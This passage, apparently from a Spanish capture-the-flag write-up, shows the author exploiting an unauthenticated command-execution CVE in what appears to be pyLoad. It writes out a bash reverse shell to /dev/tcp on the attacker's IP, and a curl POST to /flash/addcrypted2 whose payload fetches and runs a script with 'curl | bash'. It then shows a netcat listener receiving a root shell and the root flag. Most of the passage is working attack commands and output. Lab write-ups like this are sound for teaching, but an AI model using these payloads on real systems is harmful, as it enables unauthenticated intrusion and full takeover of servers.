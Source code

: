 Esta versión tiene un CVE asocidado y es posible ejecutar comandos sin estar autenticado. Creo un archivo ```index.html``` que se encargue de enviarme una reverse shell

```null
cat index.html
#!/bin/bash

bash -c 'bash -i >& /dev/tcp/10.10.16.40/443 0>&1'
```

Envío la petición

```null
curl -i -s -k -X $'POST' \
    --data-binary $'jk=pyimport%20os;os.system(\"curl%2010.10.16.40%20%7C%20bash\");f=function%20f2(){};&package=xxx&crypted=AAAA&&passwords=aaaa' \
    $'http://127.0.0.1:8000/flash/addcrypted2'
```

Gano acceso al sistema en una sesión de ```netcat``` y veo la segunda flag

```null
nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.16.40] from (UNKNOWN) [10.10.11.214] 59582
bash: cannot set terminal process group (1042): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# cat /root/root.txt
cat /root/root.txt
5adebef9c1e45b21f3f4784a97ad8096
root@pc:~/.pyload/data#
```